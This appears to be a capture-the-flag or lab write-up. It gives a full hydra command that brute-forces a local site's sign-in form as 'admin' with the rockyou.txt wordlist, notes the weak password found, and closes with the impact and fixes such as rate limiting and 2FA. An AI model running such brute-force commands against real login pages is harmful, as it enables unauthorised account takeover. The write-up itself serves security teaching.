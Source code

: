 a common attack is to try to bruteforce the login, if a password is weak.
we can try with the user `admin` which is very common, and any password data set, like rockyou.txt
`hydra -l admin -P rockyou.txt localhost http-get-form "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:WrongAnswer.gif"`
![demo](./demo.png)
trying to login with admin and shadow gives us the flag.

# use case

logging as the admin can gives us a lot of power over admin panels and moderations tools on the site, including impersonations and pishing.

# fix

the best way to fix this is to add a rate limiter to the backend, so that the client is blocked after some failed attempts.
also using a stronger, unique password, and 2FA are useful.

